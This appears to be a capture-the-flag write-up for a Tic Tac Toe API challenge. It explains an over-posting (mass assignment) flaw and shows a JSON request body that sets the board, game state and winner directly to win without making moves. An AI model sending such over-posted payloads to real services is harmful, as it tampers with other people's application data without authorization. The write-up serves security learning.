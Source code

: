 # Tic Tack Hack

### Challenge
> Win a game without making any moves.

This is yet another Tic Tac Toe API challenge. The instructions show you how to start a game:

    POST /api/Game HTTP/1.1
    Host: ctf-tic-tac-toe.azurewebsites.net
    Authorization: Bearer eyJhbGciOiJIUzI...
    Content-Type: application/json
    Content-Length: 74
    
    {
        "FriendlyName" : "Game 10",
        "PlayerXName" : "your-user-name"
    }

But if you look closely at the swagger docs you will see that the endpoint actually accepts much more than just FriendlyName and PlayerXName:

![](image/tictackhack.png)

It looks like this API is vulnerable to a classic *over posting* attack - where you send more information than you need and the system accepts it and persists it to the database.

If you were to post an entire game then you have automatically won without ever even calling the Move endpoint:

    {
        "FriendlyName" : "my first game",
        "PlayerXName": "xfactor",
        "GameState": 2,
        "Board": {
            "Squares": [
                "X",
                "X",
                "X",
                "X",
                "X",
                "X",
                "X",
                "X",
                "X"
            ]
        },
        "Winner": 3
    }